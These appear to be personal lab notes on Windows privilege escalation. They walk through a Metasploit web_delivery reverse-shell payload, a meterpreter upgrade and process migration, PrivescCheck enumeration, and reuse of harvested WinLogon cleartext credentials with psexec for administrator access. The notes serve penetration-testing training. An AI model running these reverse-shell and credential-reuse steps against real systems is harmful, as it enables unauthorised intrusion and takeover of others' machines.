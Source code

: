 Identifying the Windows Vulnerabilities

- Once we obtain access to the target system with the privileges of NT Authority\System there is no need for us to keep on going with the Privilege escalation techniques. Let us assume that we got regular access then chances are that we might have to get highest privileges on the target system. In order to do so the following techniques will help you.
- In order to elevate your privileges on Windows, you must first, identify privilege escalation vulnerabilities that exist on the target system.
- This process will differ greatly based on the type of target you gain access to. Privilege escalation on Windows can be performed through a plethora of techniques based on the version of Windows and the system's unique configuration
- This process can be quite tedious and time consuming and as a result, it is recommeneded to automate the process of identifying privilege escalation vulnerabilities. This can be done through the use of various automation scripts
- PrivescCheck - This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post exploitation
	- Github: https://github.com/itm4n/PrivescCheck


Lab details:
- This is a GUI based lab environment. We have access to both kali and victim machine the target IP is listed on Kali destop target file.
- In this lab we are exploiting a web delivery vulnerability and it can be exploited using msfconsole and search for web delivery
- use exploit/multi/script/web_delivery and for the information on the module simply type info command
- set target to PSH\ (Binary) and set payload windows/shell/reverse_tcp as well as PSH-EncodedCommand to false and finally Lhost as attacker IP
- Once the powershell code is generated copy all that code and open a command prompt in the target machine and paste the command that we copied from the module and hit enter do not worry if the command prompt is closed 
- Now check your attack machine we get a command shell session
- If we launch the session and check the user using the command `whoami`
- If it is not NT Authority\System we need to perform privilege escalation the sole purpouse of the lab
- We will migrate the session to a meterpreter session. We can do it in two ways you can refer that in the metasploit framework end module.
- `session -u <sessionId>` using this command we can upgrade the shell session to meterpreter session. 
- launch the merterpreter session and use the command `sysinfo` and based on the version of the OS upgrade the session to 64 bit 
- `pgrep explorer.exe` to get the ProcessID (PID) `migrate PID_of_explorer` 
- `get privs` to check the user privileges that we currently have
- Navigate to the root and to the home directory of the student and already the privesc script folder is present we can move into that folder
- Once we are in that folder we can run the appropriate command based on the shell access that we have as we have got the command shell in this lab the command listed in the official github repository is `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`


Windows Privilege Escalation

- It is a continuation of the previous lab as we observed that in the previous lab that the only vulnerability is `winlogon` and we got the credentials `Username: administrator and password: hello_123321`
- What does and WinLogon do > It will parse the WinLogon registry keys and check whether they contain any clear text password. Entries that have an empty password field are filtered out.
- By default every Windows system comes in pre packaged with SMB as part of all the serices installed it allows user to authenticate with SMB we will utilize the python implementation of psexec utility to authenticate.
	- With the password that we obtained we can try to login using the psexec utility and the format is `psexec.py {user}@{targetIP}` and provide password.
	- Once logged in we get the terminal as a Administrator with all the privileges.
- The same can be done from within the metasploit framework
	- search for the psexec module in msfconsole
	- `use exploit/windows/smb/psexec` and set the values and hit enter
	- The advantage of getting this is we get meterpreter session be it 32 bit we can upgrade it with a explorer.exe PID
- After obtaining the user account credentials we can use these protocols to authenticate with Windows target
	- SMB
	- WinRM
	- RDP

